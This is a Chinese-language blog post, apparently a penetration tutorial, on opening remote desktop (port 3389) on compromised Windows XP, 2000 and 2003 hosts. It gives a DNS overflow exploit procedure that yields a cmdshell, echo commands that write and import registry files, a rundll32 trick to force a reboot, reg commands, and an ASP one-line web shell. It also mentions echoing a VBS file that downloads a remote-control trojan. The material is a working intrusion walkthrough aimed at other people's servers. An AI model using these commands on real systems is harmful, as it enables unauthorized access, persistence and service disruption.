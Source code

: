 ```yaml
---
title: Windows下的3389端口渗透
date: 2019-08-11 18:25:12
categories: 旧时光
tags: 网络安全
---
```

## 一、Win7、Win2003、XP系统

在CMD命令行开启3389端口：
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

在CMD命令行关闭3389端口（将00000000改成11111111即可）：

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f

## 二、2000系统

简要说一下如何进行DNS溢出攻击。我用的溢出利用程序是dns.exe，在CMD下运行它可以看到它的使用参数等信息。执行"dns -s IP"命令检测目标IP是否存在DNS溢出漏洞，若存在则进行溢出攻击，执行"dns -t 2000all IP 1207"后提示要我们检测返回的1100端口的shell。"telnet IP 1100"成功得到返回的cmdshell。注意目录为c:/WINNT/system32，接着我们需要做的是使用"echo"命令写入一个3389.reg注册表文件。将如下代码一行一行地复制到cmdshell窗口后按回 车执行：

echo Windows Registry Editor Version 5.00 >3389.reg
echo. >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/netcache] >>3389.reg
echo "Enabled"="0" >>3389.reg
echo [HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Winlogon] >>3389.reg
echo "ShutdownWithoutLogon"="0" >>3389.reg
echo [HKEY_LOCAL_MACHINE/SOFTWARE/Policies/Microsoft/Windows/Installer] >>3389.reg
echo "EnableAdminTSRemote"=dword:00000001 >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server] >>3389.reg
echo "TSEnabled"=dword:00000001 >>3389.reg
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/TermDD] >>3389.reg
echo "Start"=dword:00000002 >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/TermService] >>3389.reg
echo "Start"=dword:00000002 >>3389.reg
echo [HKEY_USERS/.DEFAULT/Keyboard Layout/Toggle] >>3389.reg 
echo "Hotkey"="1" >>3389.reg
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/Wds/rdpwd/Tds/tcp] >>3389.reg 
echo "PortNumber"=dword:00000D3D >>3389.reg
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/WinStations/RDP-Tcp] >>3389.reg
echo "PortNumber"=dword:00000D3D >>3389.reg

简单说明一下，">"符号是覆盖写入文件，如无此文件则创建，有则覆盖原来的内容写入。">>"是追加写入，即在原有文件内容的基础上在 后面写入内容。这里是写入内容到3389.reg文件中！需要注意的是第二行，那个作用是写入一行空格，因为.reg文件的格式 必须如此！成功写入完毕后接着执行导入操作，执行"regedit /s 3389.reg"。这样注册表文件就已经顺利导入到注册表里去了。不过需要注意的是在cmdshell下不要输错任何一个字符，否则将无法执行，建议先 自己打好在记事本上，确保无误之后再复制到cmdshell窗口执行。然后可以用下面这个方法重启目标主机。在cmdshell下执行如下代码：

@ECHO OFF & cd/d %temp% & echo [version] > {out}.inf 
(set inf=InstallHinfSection DefaultInstall) 
echo signature=$chicago$ >> {out}.inf 
echo [defaultinstall] >> {out}.inf
rundll32 setupapi,%inf% 1 %temp%/{out}.inf r

按顺序将以上五行代码一行一行地复制到cmdshell上，复制完一行按一次回车执行，五行都执行完毕后，服务器就会重启的了。当然让服务器重启的方法比较多，比如结束掉系统关键进程、代码模拟按键等都是可以的，如无意外，等待服 务器完成重启之后再连接目标发现远程桌面服务已经成功开启了。至此Windows 2000操作系统溢出后返回的cmdshell下开启远程桌面服务就成功完成了。

## 三、2003系统

相对于2000的系 统来说，2003cmdshell下开启远程桌面服务就比较容易一些了，起码无需重启嘛！第一种方法也是用"echo"命令写入一个 3389.reg文件，再"regedit /s 3389.reg"导入注册表文件即可开启，比较简单，与上面介绍的2000的开启方法类似。将如下代码一行一行地复制到cmdshell窗口后按回车执 行：

echo Windows Registry Editor Version 5.00 >3389.reg 
echo. >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server] >>3389.reg 
echo "fDenyTSConnections"=dword:00000000 >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/Wds/rdpwd/Tds/tcp] >>3389.reg 
echo "PortNumber"=dword:00000d3d >>3389.reg 
echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/WinStations/RDP-Tcp] >>3389.reg 
echo "PortNumber"=dword:00000d3d >>3389.reg

完成以上操作后再执行"regedit /s 3389.reg"导入即可生效！不过这个方法相对来说比较麻烦。我们还可以用另外一种比较简单的方法来开启远程桌面服务的。在介绍另一个操作方法之前，我们先来熟悉下2003系统下远程桌面服务的一个最关键的注册表键值。
在"HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server"

下数值名称为"fDenyTSConnections"的这一项，可以看到它的数值数据为1或0。数值为1的时候关闭远程桌面服务，数值为0的时候开启远程 桌面服务。换句话说，我们只要可以在cmdshell下更改这个关键的注册表键值数据就可以达到实现开启远程桌面服务的目的了！有幸的是，在2003下有 一个"reg"命令完全可以做到这一点。这里我们找一台操作系统为2003的服务器，通过和上面介绍的同样方法溢出后返回一个cmdshell。当我们尝试连接的时候会发现根本无法连接上去。下面详细说明一下用"reg"命令开启远程桌面服务。执行：

reg query "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server"

我们发现"fDenyTSConnections"键值数据为"0x1"。这个是十六进制数的1。上面提到，数据为1则没有开启远程桌面服务。我们要做的就是把"0x1"改成"0x0"！直接用"reg add"是不行的，必须把原来键值删掉再添加！在cmdshell下执行：

reg delete "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server" /v fDenyTSConnections

会询问是否"要删除注册表值 fDenyTSConnections 吗"，当然Yes了。再执行：

reg add "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0

提示操作成功完成。这样就把"fDenyTSConnections"的值改为"0x0"了，我们可以执行：

reg query "HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server"

发现已经成功更改了数据。现在再来连接服务器的3389看看，发现已经可以成功连接上了，创建个用户玩玩。至此2003下cmdshell开启远程桌面服务的方法也介绍完了。


溢出后也不一定要非要在cmdshell下开启远程桌面服务。
可以echo一个vbs文件，下载远程控制木马，然后在cmdshell里运行一下木马即可连接。
还有就是查询目标IP是否绑定有网站，如果有则找到网站目录，再用echo个一句话木马进去（例如：echo "<%execute request("cmd")%>"   > WEB路径/test.asp），用菜刀连接，然后上传大马，上传开3389的工具再开启也行。
